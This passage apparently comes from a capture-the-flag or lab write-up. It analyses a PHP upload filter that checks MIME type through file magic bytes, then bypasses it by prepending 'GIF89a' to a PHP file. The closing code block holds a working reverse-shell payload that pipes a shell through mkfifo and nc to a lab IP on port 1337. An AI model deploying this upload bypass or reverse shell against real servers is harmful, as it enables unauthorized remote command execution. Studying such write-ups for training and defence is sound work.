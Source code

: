 Since we know our file doesnt exceed 60Mb, we can focus on `check_file_type`. This function is located in `lib.php`.

{% highlight php %}
function check_file_type($file) {
  $mime_type = file_mime_type($file);
  if (strpos($mime_type, 'image/') === 0) {
      return true;
  } else {
      return false;
  }  
}

function file_mime_type($file) {
  $regexp = '/^([a-z\-]+\/[a-z0-9\-\.\+]+)(;\s.+)?$/';
  if (function_exists('finfo_file')) {
    $finfo = finfo_open(FILEINFO_MIME);
    if (is_resource($finfo)) // It is possible that a FALSE value is returned, if there is no magic MIME database file found on the system
    {
      $mime = @finfo_file($finfo, $file['tmp_name']);
      finfo_close($finfo);
      if (is_string($mime) && preg_match($regexp, $mime, $matches)) {
        $file_type = $matches[1];
        return $file_type;
      }
    }
  }
  if (function_exists('mime_content_type'))
  {
    $file_type = @mime_content_type($file['tmp_name']);
    if (strlen($file_type) > 0) // It's possible that mime_content_type() returns FALSE or an empty string
    {
      return $file_type;
    }
  }
  return $file['type'];
}
{% endhighlight %}

Judging from the code, it seems like it is checking the MIME Content-type of the file. Examples of MIME Content-types include `image/jpeg`, `text/html`, `application/json`. This is done by checking the file header bytes and using a MIME database file to determine the Content-Type.

Looks like the Content-Type needs to contain `image/`, such as `image/png`, `image/jpeg` and `image/gif`.

With this knowledge, we know that we need to trick the web server into thinking our file is an image. This can actually be done by prepending `GIF89a` to `reverseconn.php`!
{% highlight php %}
GIF89a
<?php
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.XXX.XXX 1337 >/tmp/f');
?>
{% endhighlight %}
